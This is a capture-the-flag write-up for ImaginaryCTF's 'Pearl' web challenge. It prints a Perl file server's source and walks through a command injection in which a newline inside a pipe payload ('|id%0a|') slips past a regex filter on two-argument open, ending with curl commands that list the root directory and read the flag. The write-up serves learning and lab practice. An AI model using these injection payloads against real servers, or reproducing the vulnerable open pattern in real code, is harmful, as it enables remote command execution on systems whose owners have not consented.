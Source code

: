 ```yaml
---
title: Pearl
summary: I used perl to make my pearl shop.
tags: [ImaginaryCTF, Web, Command Injection]
date: 2025-09-07
showtoc: true
---
```


# Pearl

## Description

I used perl to make my pearl shop.
Soon, we will expand to selling [Perler bead](https://en.wikipedia.org/wiki/Fuse_beads) renditions of [Perlin noise](https://en.wikipedia.org/wiki/Perlin_noise).

Author: Eth007

[Given files](/imaginaryctf/pearl/pearl.zip)

## Solution

The web application is a static HTML page where we can add products to our cart.
That's it.

![index](/imaginaryctf/pearl/index.png)

Let's look at the provided source code.

Firstly, the flag is located in a file on the server.
The filename is composed of the MD5 hash of the flag itself, so we don't know its exact name.

```Dockerfile
COPY flag.txt /
RUN mv /flag.txt /flag-$(md5sum /flag.txt | awk '{print $1}').txt
```

The server is written in Perl (you could have guessed?) and serves either the contents of a file or a directory listing based on the request path.

```perl
if ($r->method eq 'GET') {
    my $path = CGI::unescape($r->uri->path);
    $path =~ s|^/||;     # Remove leading slash
    $path ||= 'index.html';

    my $fullpath = File::Spec->catfile("./files", $path);

    if ($fullpath =~ /\.\.|[,\`\)\(;&]|\|.*\|/) {
        $c->send_error(RC_BAD_REQUEST, "Invalid path");
        next;
    }

    if (-d $fullpath) {
        # Serve directory listing
        opendir(my $dh, $fullpath) or do {
            $c->send_error(RC_FORBIDDEN, "Cannot open directory.");
            next;
        };

        my @files = readdir($dh);
        closedir($dh);

        my $html = "<html><body><h1>Index of /$path</h1><ul>";
        foreach my $f (@files) {
            next if $f =~ /^\./;  # Skip dotfiles
            my $link = "$path/$f";
            $link =~ s|//|/|g;
            $html .= qq{<li><a href="/$link">} . escapeHTML($f) . "</a></li>";
        }
        $html .= "</ul></body></html>";

        my $resp = HTTP::Response->new(RC_OK);
        $resp->header("Content-Type" => "text/html");
        $resp->content($html);
        $c->send_response($resp);
    } else {
        open(my $fh, $fullpath) or do {
            $c->send_error(RC_INTERNAL_SERVER_ERROR, "Cannot open file.");
            next;
        };
        binmode $fh;
        my $content = do { local $/; <$fh> };
        close $fh;

        my $mime = 'text/html';

        my $resp = HTTP::Response->new(RC_OK);
        $resp->header("Content-Type" => $mime);
        $resp->content($content);
        $c->send_response($resp);
    }
}
```

To exploit this server, my idea was to send two requests:

* The first one would list the files in the root directory using path traversal to discover the flag filename, using something like `localhost:8080/../../`.
* The second one would retrieve the contents of the file containing the flag using `localhost:8080/../../flag-[md5sum].txt`.

Let’s see how the path is sanitized:

```perl
my $path = CGI::unescape($r->uri->path);
$path =~ s|^/||;     # Remove leading slash
$path ||= 'index.html';

my $fullpath = File::Spec->catfile("./files", $path);

if ($fullpath =~ /\.\.|[,\`\)\(;&]|\|.*\|/) {
    $c->send_error(RC_BAD_REQUEST, "Invalid path");
    next;
}
```

The path is first decoded from URL encoding, then concatenated to `./files`, and the result must not match the given regex.

To better understand the regex, I used [Regex101](https://regex101.com/).

![regex](/imaginaryctf/pearl/regex.png)

So the regex prevents the path from containing:

* `..`: the classic path traversal sequence
* Any of these characters: `,`, `` ` ``, `)`, `(`, `;`, `&`
* `|.*|`: a pipe, followed by anything, followed by another pipe

To leak the contents of the root directory, I tried various payloads:

* Basic path traversal: `/..`
* URL-encoded traversal: `/%2E%2E`
* Double URL-encoded: `/%252E%252E`
* Overlong UTF-8 encoding: `/%c0%2e%c0%2e`
* Using special characters to avoid regex detection: `/.%00.`
* And many more...

But none worked.

Since path traversal was my only idea and all my attempts failed, I did some research.

It turns out that in Perl, the `open` function can not only read files but also execute shell commands.
That's why subshell characters are sanitized.

So again, I tried various command injections:

* Subshells like `/$(id)` and `` /`id` `` are caught by the regex
* A single pipe like `/|id` is treated as a filename
* Two pipes (`/|id|`) are blocked by the regex `|.*|`

But then I remembered the regex description from [Regex101](https://regex101.com/):

![regex_pipe](/imaginaryctf/pearl/regex_pipe.png)

> `.` matches any character (**except for line terminators**)

So what if I put a newline before the second pipe, like this: `|id\n|`?

Answer: **It works!**

```sh
$ curl 'http://localhost:8080/|id%0a|'
uid=0(root) gid=0(root) groups=0(root)
```

All that's left is to find the flag and read it.

```sh
$ curl 'http://localhost:8080/|ls%20/%0a|'
app
bin
boot
dev
etc
flag-8ede8d4419fba13690098d0df565f495.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

$ curl 'http://localhost:8080/|cat%20/flag-8ede8d4419fba13690098d0df565f495.txt%0a|'
ictf{uggh_why_do_people_use_perl_1f023b129a22}
```

# References

- Perl Documentation: [open](https://perldoc.perl.org/functions/open)
